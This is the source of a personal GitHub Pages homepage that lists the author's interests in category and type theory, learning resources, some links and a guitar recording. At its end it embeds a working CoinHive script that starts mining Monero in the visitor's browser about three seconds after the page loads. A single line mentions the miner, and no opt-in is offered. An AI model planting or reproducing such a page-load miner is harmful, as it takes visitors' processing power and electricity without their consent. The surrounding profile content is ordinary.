 ```yaml
---
layout:
---
```


<!--
i apologize this site watches back
-->

<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
</head>

Welcome to the user site of [github/bohadi](https://github.com/bohadi).

I am currently most interested in effectively engineering complex
software via application of category theory and type theory.

<!--
In particular, I am studying language, compilation, and blockchain implementation.
-->
<!--
Other interests include AI/ML, genomics, and the design and enjoyment of games.
-->

Thanks for the visit and please feel free to look around.

<!--
(mailto:bohadi@users.noreply.github.com)
if you would like to contact me
-->

here are some learning resources i find helpful:<br>
[pfpl](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[hott](https://homotopytypetheory.org/book/)<br>
[ctfp](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[oplss17](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[nlab/wiki](https://ncatlab.org/nlab/show/HomePage)<br>
[aosa/ghc](http://www.aosabook.org/en/ghc.html)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>


<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

I enjoy playing the guitar and here is a short recording I made.

<!--
[this site, projects repo](https://github.com/bohadi)
-->

some links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>

<!--
some old stories:<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

[other fiction i (did) enjoy](movies)<br>
-->

<br>
Finally, this page can mine Monero on your machine.<br>
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);

</script>
